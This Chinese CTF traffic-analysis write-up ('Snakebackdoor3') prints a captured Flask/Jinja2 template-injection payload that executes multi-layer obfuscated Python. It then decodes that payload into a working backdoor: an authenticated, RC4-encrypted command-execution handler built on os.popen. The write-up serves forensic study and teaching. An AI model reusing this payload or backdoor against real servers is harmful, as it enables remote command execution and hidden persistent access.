

**flag{zxcvbnm123}**

# Snakebackdoor3

搜POST请求，这个流量很大；



点进去发现可疑payload



```


preview_content={{url_for.__globals_['__builtins__']['exec']("import base64; exec(base64.b64decode('XyA9IGxhbWJkYSBfXyA6IF9faW1wb3J0X18oJ3psaWInKS5kZWNvbXByZXNzKF9faW1wb3J0X18oJ2Jhc2U2NCcpLmI2NGRlY29kZShfX1s6Oi0xXSkpOwpleGVjKChfKShiJz1jNENVM3hQKy8vdlB6ZnR2OGdyaTYzNWEwVDFyUXZNbEtHaTNpaUJ3dm02VEZFdmFoZlFFMlBFajdGT2NjVElQSThUR3FaTUMrbDlBb1lZR2VHVUFNY2Fyd1NpVHZCQ3YzN3lzK04xODVOb2NmbWpFL2ZPSGVpNE9uZTBDTDVUWndKb3BFbEp4THI5VkZYdlJsb2E1UXZyamlUUUtlRytTR2J5Wm0rNXpUay9WM25aMEc2TmVhcDdIdDZudSthY3hxc3Ivc2djNlJlRUZ4ZkVlMnAzMFlibXl5aXMzdWFWMXArQWowaUZ2cnRTc01Va2hKVzlWOVMvdE8rMC82OGdmeUtNL3lFOWhmNlM5ZUNEZFFwU3lMbktrRGlRazk3VFV1S0RQc09SM3BRbGRCL1VydmJ0YzRXQTFELzljdFpBV2NKK2pISkwxaytOcEN5dktHVmh4SDhETEw3bHZ1K3c5SW5VLzl6dDFzWC9Uc1VSVjdWMHhFWFpOU2xsWk1acjFrY0xKaFplQjhXNTl5bXhxZ3FYSkpZV0ppMm45NmhLdFNhMmRhYi9GMHhCdVJpWmJUWEZJRm1ENmtuR3ovb1B4ZVBUenVqUHE1SVd0OE5abXZ5TTVYRGcvTDhKVS9tQzRQU3ZYQStncWV1RHhMQ2x6Uk5ESEpVbXZ0a2FMYkp2YlpjU2c3VGdtN1VTZUpXa0NRb2pTaStJTklFajVjTjErRkZncEtSWG40Z1I5eXAzL1Y3OVduU2VFRklPNkM0aGNKYzRtd3BrKzA5dDF5dWU0K21BbGJobHhuWE0xUGZrK3NHQm1hVUZFMWtFak9wbmZHbnFzVithdU9xakpnY0RzaXZJZCt3SFBIYXp0NU1WczRySFJoWUJPQjZ5WGp1R1liRkhpM1hLV2hiN0FmTVZ2aHg3RjlhUGpObUlpR3FCVS9oUkZVdU1xQkNHK1ZWVVZBYmQ1cEZEVFpKM1A4d1V5bTZRQUFZUXZ4RytaSkRSU1F5cE9oWEsvTDRlRkZ0RXppdWZaUFN5cllQSldKbEFRc0RPK2RsaTQ2Y24xdTVBNUh5cWZuNHZ3N3pTcWUrVlVRL1JpL0tudjBwUW9XSDFkOWRHSndEZnFtZ3ZuS2krZ05SdWdjZlVqRzczVjZzL3RpaGx0OEIyM0t2bUp6cWlMUHptdWhyMFJGVUpLWmpHYTczaUxYVDRPdmxoTFJhU2JUVDR0cS9TQ2t0R1J5akxWbVNqMmtyMEdTc3FUamxMMmw2Yy9jWEtXalJNdDFrTUNtQ0NUVithSmU0bnB2b0I5OU9NbktuWlI0WXM1MjZtVEZUb1N3YTVqbXhCbWtSWUNtQTgyR0ZLN2FrNmJJUlRmRE1zV0dzWnZBRVh2M1BmdjVOUnpjSUZOTzN0YlFrZUIvTElWT1c1TGZBa21SNjgvNnpyTDBEWm9QanpGWkk1VkxmcTBydjlDd1VlSmtSM1BIY3VqKytkL2xPdms4L2gzSHpTZ1lUR0N3bDF1ano4aDRvVWlQeUdUNzROamJZN2ZKOHZVSHFOeitaVmZPdFZ3L3ozUk11cVNVekVBS3JqY1UyRE5RZWhCMG9ZN3hJbE9UOXU5QlQ0Uk9vREZvKzVaRjZ6Vm9IQTRlSWNrWFVPUDN5cFF2NXBFWUcrMHBXNE15SG1BUWZzT2FXeU1kZk1vcWJ3L005b0ltZEdLZEt5MVdxM2FxK3QreHV5VmROQVFNaG9XMkE3elF6b2I4WEdBM0c4VnVvS0hHT2NjMjVIQ2IvRlllU3hkd3lJZWRBeGtsTExZTUJIb2pUU3BEMWRFeG96ZGk4OUdpa2h6MzMwNW5kVG1FQ3YwWm9VT0hhY25xdFVVaEpseTdWZ3ZYK0psYXdBWTlvck5QVW1aTTdRS2JkT2tUZi9vOGFRbFM1RmUveFFrT01KR200TlhxTGVoaVJJYjkyNXNUZlZ4d29OZlA1djFNR2xhcllNaWZIbDJyRXA1QzcxaXBGanBBR2FFcDluUmowSmdFYTRsU1R1WWVWWHdxYlpRVDNPZlF2Z3QvYkhKbEFndXFTV3lzR2hxaElUSllNNlQxMG03MUppd2ZRSDVpTFhINVhiRms1M1FHY0cyY0FuRnJXeTcweEV2YWJtZjB1MGlrUXdwVTJzY1A4TG9FYS9DbEpuUFN1V3dpY01rVkxya1pHcW5CdmJrNkpUZzdIblQwdkdVY1Y2a2ZmSUw2Q0szYkUxRnkwUjZzbCtVUG9ZdmprZ1NJM1ViZkQ2N2JSeEl4ZWdCcFlUenlDRHpQeXRTRSthNzdzZHhzZ2hMcFVDNWh4ejRaZVhkeUlyYm1oQXFRdzVlRW5CdUFTRTVxVE1Ka1RwLy9oa3krZFQycGNpT0JZbi9BQ1NMeHByTFowQXkxK3pobCtYeVY5V0ZMNE5nQm9IMzRidmt4SDM2bmN0c3pvcFdHUHlkMTRSaVM0ZDBFcU5vY3F2dFd1M1l4a05nUCs4Zk0vZC9CMGlreEt4aC9HamttUVhhU1gvQis0MFU0YmZTYnNFSnBWT3NUSFR5NnUwTnI2N1N3N0J2Und1VnZmVDAvOGo3M2dZSEJPMmZHU0lKNDdBcllWbTIrTHpSVDBpSDVqN3lWUm1wdGNuQW44S2t4SjYzV0JHYjd1M2JkK0QrM3lsbm0xaDRBUjdNR042cjZMeHBqTmxBWDExd2EvWEIxek44Y1dVTm5DM1ZjemZ3VUV3UGZpNWR5bzluRUM1V085VW03OFdLUnJtM2M0OEl2VFVoZ2ROZVFFRG9zSWZoTVNtaW
```

解base64：

```py
_ = lambda __ : __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]));
exec((_)(b'=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'))
```

会执行zlib解压和再次base64编码

多次测试发现一直这样进行；写脚本解

```py
import base64
import zlib

aaa = b'=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'

for i in range(100):

    reversed_payload = aaa[::-1]

    decoded = base64.b64decode(reversed_payload)

    decompressed = zlib.decompress(decoded)

    aaa=decompressed.decode('utf-8')
    aaa = aaa[11:]
    aaa = aaa[:-3]
    print (aaa)

```

解出

```py
class
global code
import os,binascii
exc_class, code = app._get_exc_class_and_code(404)
RC4_SECRET = b'v1p3r_5tr1k3_k3y'
def rc4_crypt(data: bytes, key: bytes) -> bytes:
        S = list(range(256))
        j = 0
        for i in range(256):
                j = (j + S[i] + key[i % len(key)]) % 256
                S[i], S[j] = S[j], S[i]
        i = j = 0
        res = bytearray()
        for char in data:
                i = (i + 1) % 256
                j = (j + S[i]) % 256
                S[i], S[j] = S[j], S[i]
                res.append(char ^ S[(S[i] + S[j]) % 256])
        return bytes(res)
def backdoor_handler():
        if request.headers.get('X-Token-Auth') != '3011aa21232beb7504432bfa90d32779':
                return "Error"
        enc_hex_cmd = request.form.get('data')
        if not enc_hex_cmd:
                return ""
        try:
                enc_cmd = binascii.unhexlify(enc_hex_cmd)
                cmd = rc4_crypt(enc_cmd, RC4_SECRET).decode('utf-8', errors='ignore')
                output_bytes = getattr(os, 'popen')(cmd).read().encode('utf-8', errors='ignore')
                enc_output = rc4_crypt(output_bytes, RC4_SECRET)
                return binascii.hexlify(enc_output).decode()
        except:
                return "Error"
```

**flag{v1p3r_5tr1k3_k3y}**